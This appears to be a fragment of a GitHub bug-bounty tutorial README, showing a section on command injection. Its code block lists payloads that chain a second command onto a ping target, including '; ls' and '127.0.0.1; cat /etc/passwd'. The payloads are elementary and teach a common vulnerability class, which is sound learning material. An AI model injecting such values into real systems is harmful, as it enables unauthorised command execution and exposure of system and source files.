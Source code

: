 # bug-bounty-tutorial
bug bounty tutorial

## 7.command injection
```
ping -c4 127.0.0.1; ls
ping -c4 127.0.0.1 && ls

127.0.0.1; cat /etc/passwd
127.0.0.1; cat index.php
```

